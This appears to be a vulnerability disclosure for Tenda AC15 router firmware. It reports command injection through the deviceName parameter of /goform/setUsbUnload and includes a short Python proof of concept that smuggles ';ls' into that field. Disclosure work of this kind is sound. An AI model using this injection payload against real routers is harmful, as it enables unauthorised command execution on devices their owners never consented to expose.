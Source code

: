 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

In Tenda AC15V1.0 V15.03.20_multi firmware, we discovered a command injection vulnerablility in the `deviceName` parameter and the `v3` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `deviceName` can trigger this security vulnerability.

![image-20240305231546129](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231546129.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setUsbUnload"
payload = ";ls"

data = {"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314173948333](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314173948333.png)
